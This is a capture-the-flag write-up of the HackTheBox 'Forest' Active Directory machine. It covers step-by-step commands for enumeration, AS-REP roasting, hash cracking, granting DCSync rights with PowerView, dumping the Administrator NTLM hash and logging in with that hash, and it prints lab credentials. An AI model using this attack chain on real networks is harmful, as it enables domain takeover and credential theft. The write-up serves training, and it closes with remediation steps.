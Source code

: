 ```yaml
---
layout: writeup
title: Forest - HackTheBox
date: 2024-07-12 13:32:20 +0300
description: A Writeup of the Forest Box from HackTheBox
image: # /assets/images/Forest/Forest.png
fig-caption: # Add figcaption (optional)
tags: [TJ Null, LainKusanagi, Windows, Active Directory, DCSync]
---
```


Today I'm doing a writeup for a [Hack The Box](https://app.hackthebox.com/profile/2013658) box from both TJ Null’s OSCP [lab prep list](https://docs.google.com/spreadsheets/u/1/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/htmlview#)and LainKusanagi’s [list of OSCP like machines](https://www.reddit.com/r/oscp/comments/1c8pzyz/lainkusanagi_list_of_oscp_like_machines/). It is called Forest, and it is rated Easy by the HackTheBox community. As usual, we get started with an nmap (`sudo nmap -A -sC -v -p- --open 192.168.227.38 -oN nmap`) which (gives more detail but) shows these open ports:

```
PORT     STATE SERVICE
53/tcp   open  domain
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl
```

From checking `nxc smb 10.10.10.161 -u '' -p ''` we can see that the name is `FOREST` and the domain is `htb.local`. I see that there do not appear to be any web ports open, and I am unable to view anything through smb without authentication so I start to look around to see if I can get any other information through the other services. In particular we are able to get a ton of information with `enum4linux -a htb.local` (after adding the IP to the `/etc/hosts` file with an `htb.local` entry). I see a list of users:

```
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[$331000-VK4ADACQNUCA] rid:[0x463]
user:[SM_2c8eef0a09b545acb] rid:[0x464]
user:[SM_ca8c2ed5bdab4dc9b] rid:[0x465]
user:[SM_75a538d3025e4db9a] rid:[0x466]
user:[SM_681f53d4942840e18] rid:[0x467]
user:[SM_1b41c9286325456bb] rid:[0x468]
user:[SM_9b69f1b9d2cc45549] rid:[0x469]
user:[SM_7c96b981967141ebb] rid:[0x46a]
user:[SM_c75ee099d0a64c91b] rid:[0x46b]
user:[SM_1ffab36a2f5f479cb] rid:[0x46c]
user:[HealthMailboxc3d7722] rid:[0x46e]
user:[HealthMailboxfc9daad] rid:[0x46f]
user:[HealthMailboxc0a90c9] rid:[0x470]
user:[HealthMailbox670628e] rid:[0x471]
user:[HealthMailbox968e74d] rid:[0x472]
user:[HealthMailbox6ded678] rid:[0x473]
user:[HealthMailbox83d6781] rid:[0x474]
user:[HealthMailboxfd87238] rid:[0x475]
user:[HealthMailboxb01ac64] rid:[0x476]
user:[HealthMailbox7108a4e] rid:[0x477]
user:[HealthMailbox0659cc1] rid:[0x478]
user:[sebastien] rid:[0x479]
user:[lucinda] rid:[0x47a]
user:[svc-alfresco] rid:[0x47b]
user:[andy] rid:[0x47e]
user:[mark] rid:[0x47f]
user:[santi] rid:[0x480]
user:[GenkaiChan] rid:[0x2969]
user:[zeus] rid:[0x296a]
user:[test2] rid:[0x296b]
```

We can quickly get a `users.txt` file by running `cat aboveList.txt | cut -d [ -f 2 | cut -d ] -f 1`. 

I start a `nxc winrm 10.10.10.161 -u users.txt -p users.txt` just in case to see if any of the users have their own username as the password, and run that in the background. I also use ldapsearch with blank credentials to see if I can find anything interesting in there. The full command is `ldapsearch -x -H ldap://10.10.10.161 -D 'CN=admin,DC=htb,DC=local' -W -b 'DC=HTB,DC=LOCAL' 'objectClass=*'` and we enter a blank password after. It gives a ton of output, too much to be useful, but it shows that we are able to get it without authenticating. At that point, is is worth to check if we can kerberoast or aspreproast. I am not able to enumerate SPNs for Kerberoasting, but I do find a user with Pre-Authentication disabled. 

![Forest2.png](/assets/images/Forest/Forest2.png){: .responsive-image}

I try to crack this password with hashcat: `hashcat -m 18200 svc-alfresco.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force`. Eventually it cracks and we get: `svc-alfresco:s3rvice`. At this point, I see that the previous nxc command has stopped, and I see this: 

![Forest3.png](/assets/images/Forest/Forest3.png){: .responsive-image}

Interesting. I try to connect via winrm (`evil-winrm -i 10.10.10.161 -u 'GenkaiChan' -p 'GenkaiChan'`), and it works. I do the same with the `svc-alfresco` account, and it works as well. So I actually have two users, though I'm a little suspicious of the GenkaiChan account given that HTB does not uses unique boxes for each user. I can file that away for the moment. I grab the user.txt flag at `C:\Users\svc-alfresco\Desktop\flag.txt` and move on. 

At this point I ran through a few of the usual first enumeration steps - checking privileges and history, running winpeas and adPEAS, and checking for any interesting files, but I don't see anything that sticks out. It makes sense to run bloodhound here and see if I can find anything interesting. 

When I mark my user as owned and run "Reachable High Value Targets", I get this map. 

![Forest4.png](/assets/images/Forest/Forest4.png){: .responsive-image}

It is a little bit confusing because as I previously stated, I suspect the GenKaiChan user and possibly Test2 user are created by other student users on the machine. (For what it's worth, this is later confirmed.) This makes it kind of confusing, but the crucial part is that we are (transitive) members of the Account Operators group. The Account Operators group has GenericAll privileges on the Exchange Windows Permissions Group, which has WriteDACL Privileges on HTB.Local. 

![Forest5.png](/assets/images/Forest/Forest5.png){: .responsive-image}

What this means is that we can create a user, add it to the `Exchange Windows Permissions` group, and then use that user to perform a DCSync attack on the domain. The steps are as follows:
1. Create the user: `net user poppop '321!Password' /add /domain`
2. Add it to the "Exchange Windows Permissions" Group: `net group "Exchange Windows Permissions" poppop /add`
3. Grant it DCSync writes (Please note that this step requires the **PowerView module**):
	1. `$SecPassword = ConvertTo-SecureString '321!Password' -AsPlainText -Force`
	2. `$Cred = New-Object System.Management.Automation.PSCredential('htb.local\poppop', $SecPassword)`
	3. `Import-Module .\PowerView.ps1` - this must be transferred to the machine. 
	4. `Add-ObjectACL -PrincipalIdentity poppop -Credential $Cred -Rights DCSync` (**The Add-ObjectACL command is the step that requires PowerView.ps1 to have been imported**)

Then we can simply perform the DCSync attack remotely with our new user:
`impacket-secretsdump 'poppop:321!Password@10.10.10.161' -just-dc-user Administrator -just-dc-ntlm`

This will get us just the Administrator's NTLM hash, but it can be run without the `-just-dc-user Administrator` flag to get the other users. 

![Forest6.png](/assets/images/Forest/Forest6.png){: .responsive-image}

I did try cracking it, but no luck. It didn't actually matter though because we can simply run evil-winrm with the NTLM hash: `evil-winrm -i 10.10.10.161 -u Administrator -H '32693b11e6aa90eb43d32c72a07ceea6'`.

![Forest7.png](/assets/images/Forest/Forest7.png){: .responsive-image}

And boom, we get a shell, and we can grab the root flag on `C:\Users\Administrator\Desktop\root.txt`.

### Lessons Learned
In looking up other potential solutions for this box, I did see this bash script [here](https://sanaullahamankorai.medium.com/hackthebox-forest-walkthrough-2843a6386032): `for user in $(cat users.txt); do impacket-GetNPUsers -no-pass -dc-ip 10.10.10.161 $domain/${user} | grep -v Impacket; done`. I also got a little bit more familiar with bloodhound jut by needing to click around a little bit more to see how the chain of groups and permissions worked. 

One other thing I'd say is that this is my first HackTheBox writeup, and I'll be honest, I found the nature of the service confusing. I found another users credentials without realizing it, and I could have just completed the DCSync attack with them had I not guessed that's what was happening. So for me, that's something to keep an eye out for. 

### Remediation Steps
- Don't allow for ldap to be accessed without authentication.
- Require pre-authentication for the svc-alfresco account or it could be asreproasted. 
- Lock down the Exchange Windows Permissions Group, which has WriteDACL Privileges on HTB.Local. It's unclear which step definitely needs to be disabled without understanding the potential use case, but Service Accounts being members of IT Privileged Accounts being members of Account Operators being able to write anything to the Exchange Windows Permissions Group which has writeDACL permissions to the domain can't happen. 